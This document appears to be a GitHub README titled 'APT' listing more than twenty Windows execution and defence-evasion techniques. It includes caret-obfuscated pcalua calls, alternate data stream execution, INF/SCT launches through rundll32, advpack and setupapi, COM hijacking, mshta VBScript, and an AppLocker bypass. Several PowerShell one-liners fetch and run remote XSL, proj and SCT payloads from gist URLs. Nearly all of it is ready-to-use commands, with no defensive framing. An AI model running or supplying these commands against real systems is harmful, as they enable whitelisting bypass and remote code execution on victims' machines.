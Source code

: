 #######################
|                     #
|        APT          #
|                     #
#######################


( 1 ) Use Pcalua 
```
p^c^a^l^u^a^ ^-^n^ ^-^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a calc.exe
```

( 2 )  Alternate Data Streams ADS:>

```
cmd.exe:> type C:\Users\Gihad\Desktop\file.bat > C:\Users\Gihad\Desktop\test.txt:x22x2
cmd.exe:> netsh exec C:\Users\Gihad\Desktop\test.txt:x22x2
```

( 3 ) pnputil.exe Launcher .INF:> Note This Eveything here .INF Work on My Script INFscript Only !
```
pnputil.exe /add-driver C:\FilesINFExecution.inf /install

&- My Code INFScript Injection Command Line 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```
( 4 ) INFDefaultInstall Launch Execute INFScript 
```
INFDefaultInstall.exe C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 5 ) setupapi.dll Launch Execute My INFScript 
```
setupapi.dll,InstallHinfSection DefaultInstall 132 C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 6 ) DLL Execution Using ( Wave.Reflection ) In CPLEx AccessibilityCPL RegServer
```
&- Add Values in HKLM Name File ms-settings in Open/Shell/Command
&- rundll32 accessibilitycpl.dll,DllRegisterServer 
&- rundll32 shell32.dll,Control_RunDLL "C:\Windows\tem32\desk.cpl"
```
( 7 ) Language LUA in Files .wlua
```
wlua.exe C:\testing.wlua
&- Hello World Exe My Code LUA
https://gist.githubusercontent.com/homjxi0e/bbd218dea9bf63fd36524b9777a399f3/raw/888f7e484651fdb733d6261ca002d684a6e5bf9b/Test.wlua
```

( 8 ) SCT ScriptLet Execution in My INFScript
```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
&- Raw Code 
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415
```

( 9 ) Jscript Execute Code Via ( Eval,VSA,) 
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JSCript')
$attack = 'var invokeMethod = new ActiveXObject("WScript.Shell");invokeMethod.Run("notepad.exe")'
[Microsoft.JScript.Eval]::JScriptEvaluate($attack,[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
&- Code Execute
https://gist.githubusercontent.com/homjxi0e/0d683007bd4a3ce39d3e19342aaa68ec/raw/4c8709382280de158b99dd78f91875e32a54bac4/ATPSJScript
```

( 10 ) MSI Launch Execution ( MsiExec.exe ) 
```
 msiexec.exe /passive /i C:\testing.msi /norestart 
 &- File MSI Hello World Exe in .MSI 
```

( 10v1 ) COM Component object Model Hijacking
```
&- Add Reg in System 
https://gist.githubusercontent.com/homjxi0e/8e42aa716361dc41b1c45a314bea501c/raw/327104671eebad1361210524f34076503e6b8e44/COM-hijacking.reg
&- You can now Execution invoke-CLSID Via xwizard.exe
xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
```
( 10v2 ) Execute VBScript Via mshta.exe
```
&- Execute VBScript Code using mshta.exe
mshta.exe VBScript:Close(Execute("Set S=CreateObject(""WScript.Shell""):If S.AppActivate(""maybe-Run"")=False Then:S.Run(""C:\Windows\system32\Calc.exe""):End If"))
https://gist.githubusercontent.com/homjxi0e/eb16d75f3db6d6081648f2c5c5c98c3b/raw/0870f7553095dcf6519f93c1cf72c6415468140b/VBSExC
```




(Note) Product Via @bohops 

( 11 ) HTA Launch Execution ( url.dll ) 
```
Rundll32.exe url.dll,OpenURL FileHTA Or Anything 
```
( 12 ) SCT Launch Execution InSide INFScript ( ieadvpack.dll )  
```
rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1, 
```

( 13 ) XML Launch Execution Via Reflection,Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.Build');
$proj = [System.Xml.XmlReader]::create("https://gist.githubusercontent.com/caseysmithrc/8e58d11bc99e496a19424fbe5a99175f/raw/38256d70b414f6678005366efc86009c562948c6/xslt2.proj")
$e=new-object Microsoft.Build.Evaluation.Project($proj); 
$e.build();
```
( 14 ) CSharp Launch Execution Via Reflection.Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('http://Microsoft.Build '); $e=new-object http://Microsoft.Build.Evaluation.Project('evil.csproj'); $e.Build();
```
( 15 ) SCT Execution Via INFScript By ( advpack.dll )

```
rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
```
( 16 ) XML Launch Execution Via Reader XML,Transform Object Powershell 
```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xsl',$s,$r);$x.Transform('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xml','z');del z;
```

( 17 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.VisualBasic )

```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …').Exec(0)

```

( 18 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.JScript )
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

( 19 ) Commandline APT Launch Execution Applocker/Bypassing Via ( CL_LoadAssembly )

```
import-module C:\windows\diagnostics\system\AERO\CL_LoadAssembly.ps1
LoadAssemblyFromPath C:\Windows\System32\calc.exe
```

( 20 ) HTA Launch Execution Via ( shdocvw.dll ) 

```
rundll32.exe shdocvw.dll, OpenURL <path to local URL file>
```

( 21 ) HTA Launch Execution Via ( ieframe.dll ) 

```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
```
( 21 ) Commandline Execute Via  Vshadow.exe
```
 Vshadow exec calc.exe
 ```
